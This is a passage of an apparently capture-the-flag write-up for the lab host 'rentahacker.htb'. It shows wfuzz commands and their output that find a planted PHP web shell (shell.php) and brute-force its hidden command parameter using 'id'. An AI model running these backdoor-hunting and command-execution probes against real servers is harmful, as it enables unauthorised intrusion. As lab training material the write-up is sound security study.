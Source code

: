 Let's do a zone transfer on all of them and add them to `/etc/hosts`.

### MantisBT Owned!

While I was exploring the `rentahacker.htb` domain, I chanced upon an interesting comment in the blog.


{% include image.html image_alt="47df2080.png" image_src="/d2fa076e-05e6-4e08-93f8-225223643d3c/47df2080.png" %}


Moving on to the bug tracker subdomain `sec03.rentahacker.htb`, I see this.


{% include image.html image_alt="47a09ce6.png" image_src="/d2fa076e-05e6-4e08-93f8-225223643d3c/47a09ce6.png" %}


That got me thinking, "maybe the hacker left a backdoor?".

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt -t 20 --hc 404 http://sec03.rentahacker.htb/FUZZ
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://sec03.rentahacker.htb/FUZZ
Total requests: 81

==================================================================
ID      Response   Lines      Word         Chars          Payload    
==================================================================

000043:  C=200      0 L        0 W            0 Ch        "shell.php"

Total time: 4.063213
Processed Requests: 81
Filtered Requests: 80
Requests/sec.: 19.93495
```

Indeed, but there's no output. Perhaps we need to brute force the parameter?

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 20 --hh 0 http://sec03.rentahacker.htb/shell.php?FUZZ=id
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://sec03.rentahacker.htb/shell.php?FUZZ=id
Total requests: 2588

==================================================================
ID      Response   Lines      Word         Chars          Payload    
==================================================================

000197:  C=200      1 L        3 W           61 Ch        "hidden"

Total time: 30.90042
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 83.75290
```
